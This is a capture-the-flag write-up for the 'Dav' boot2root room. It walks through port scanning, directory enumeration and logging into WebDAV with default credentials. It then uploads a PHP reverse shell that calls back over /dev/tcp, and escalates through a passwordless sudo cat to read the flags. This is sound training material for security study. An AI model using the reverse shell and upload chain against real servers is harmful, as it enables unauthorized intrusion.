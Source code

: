# Dav Write-Up:

Another day, another CTF! This room, **Dav** describes itself as a "boot2root machine for FIT and bsides guatemala CTF" Let's try it out!

## Port Scan:

As usual, I like to start with the old reliable port scan with NMap:

```
sudo nmap -vv -sS -sC -sV -oN nmap-out {MACHINE_IP}
```

It only returned 1 port:

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```


## Directory Enumeration:

I then tried a new tool for directory enumeration: **Feroxbuster**

Check it out [here.](https://github.com/epi052/feroxbuster)

```
feroxbuster -u http://{MACHINE_IP}/ -x php,txt,html -w /usr/share/wordlists/directory-list-2.3-medium.txt --extract-links --output page_enum --scan-limit 2
```
 
I was very pleased with this tool! So fast and powerful! This particular CTF only has one useful directory to find, though. It felt like I was using an anti-aircraft gun to take down a mouse. But I can't wait to try this tool out on a CTF that uses a more complex directory structure.

Anyway, the scan returned the following:

```
200    15l       74w     3338c http://{MACHINE_IP}/icons/ubuntu-logo.png
200   375l      968w    11321c http://{MACHINE_IP}/index.html
401    14l       54w      459c http://{MACHINE_IP}/webdav
403    11l       32w      300c http://{MACHINE_IP}/server-status
```

## Exploration:

I checked out the **/webdav** directory. I got a password prompt.

I looked up default passwords for webdav servers, and came up with **username= wampp** and **password= xampp**. I tried them out, and I got access!

![webdav.png](./screenshots/webdav.png)

There is a file, **passwd.dav**, that contains the following:

```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

I couldn't find any use for the above information. It looks like a hash, but I ran it through a hash identifier, and I couldn't find any results.

## Getting A Shell:

It turns out, that **WEBDAV** is an extension of HTTP. It allows for the copying, retrieving, and even adding files.

I used a Linux WEBDAV client, called **Cadaver**, to establish a WEBDAV session with the server:

```
cadaver http://{MACHINE_IP}/webdav/
Authentication required for webdav on server `{MACHINE_IP}':
Username: wampp
Password: 
dav:/webdav/> 
```

I created a reverse shell PHP file (revshell.php) on my local machine:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{THM_VPN_IP}/1234 0>&1'");?>
```

I then used the **put** command on the WEBDAV server to upload my **revshell.php** file:

```
dav:/webdav/> put /{path_to_file}/revshell.php
```

I then set up a NetCat listener on my local machine:

```
sudo nc -nvlp 1234
```

I then navigated to **{MACHINE_IP}/webdav/revshell.php** on my browser, and I got a shell!

I found the **/home/merlin** directory, and found the **user.txt** file:

```
449b40fe93f78a938523b7e4dcd66d2a
```

That is the user flag!

## Getting The Root Flag:

I ran a **sudo -l** command:

```
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Well, this is going to be easy.

We can run the **cat** command as super-user without a password! Let's try **sudo cat /root/root.txt**:

```
101101ddc16b0cdf65ba0b8a7af7afa5
```

That's the root flag! I hope you found this helpfull!
